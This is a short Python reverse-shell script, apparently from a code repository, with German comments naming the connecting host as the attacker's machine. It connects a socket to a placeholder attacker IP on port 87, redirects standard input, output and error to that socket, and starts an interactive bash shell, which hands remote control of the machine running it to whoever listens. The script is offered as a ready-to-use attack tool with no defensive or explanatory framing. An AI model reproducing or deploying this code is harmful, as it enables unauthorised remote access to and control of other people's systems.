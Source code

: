 # revers_shell_script

import socket
import subprocess
import os

HOST = 'DEINE_HOST_IP'  # Deine physische Rechner-IP (Attacker)
PORT = 87               # Port, auf dem du lauschst

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

# stdin, stdout, stderr auf die Socket umleiten
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

# Bash interaktiv starten
subprocess.call(['/bin/bash', '-i'])
